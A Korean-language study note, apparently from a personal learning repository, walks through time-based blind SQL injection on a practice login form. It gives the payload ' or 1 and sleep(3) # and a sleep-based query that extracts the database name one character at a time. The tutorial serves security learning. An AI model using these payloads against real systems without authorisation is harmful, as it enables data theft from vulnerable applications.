 - 로그인 창

  ```
  ID   : ' or 1 and sleep(3) # 
  PASS : 상관없음 
  
  팝업창 응답이 빨리 뜨는지 만약에 구분안된다 생각되면 sleep(10)
  ```

- 참

  ```
  select * from member where u_id='' or 1 and sleep(3) #' and u_pass='$pw';
  ```

  

- 거짓

  ```
  select * from member where u_id='' or 0 and sleep(3) #' and u_pass='$pw';
  ```

  

- database() 이용하여 데이터베이스명 첫글자 알아내기

  - 참고

    ```
    mysql> select database();
    ```

    ![화면 캡처 2022-11-01 160955](../../assets/img/화면 캡처 2022-11-01 160955.png)

    ```
    데이터베이스의 첫글자 확인
    
    mysql> select substring(database(),1,1);
    ```

    ![화면 캡처 2022-11-01 161122](../../assets/img/화면 캡처 2022-11-01 161122.png)

    ```
    데이터베이스의 첫글자의 ascii 코드를 확인
    
    mysql> select ascii(substring(database(),1,1));
    ```

    ![화면 캡처 2022-11-01 161234](../../assets/img/화면 캡처 2022-11-01 161234.png)

  - 알파벳 문자인가?

    ```
    select * from member where u_id='' or ascii(substring(database(),1,1))>=65 and sleep(5) #' and u_pass='$pw';
    
    ID : ' or ascii(substring(database(),1,1))>=65 and sleep(5) #
    PASS : 아무거나 
    
    결과) 로그인 실패 창이 늦게 뜬다 - 참 > 알파벳 문자일 확률이 높다
    ```
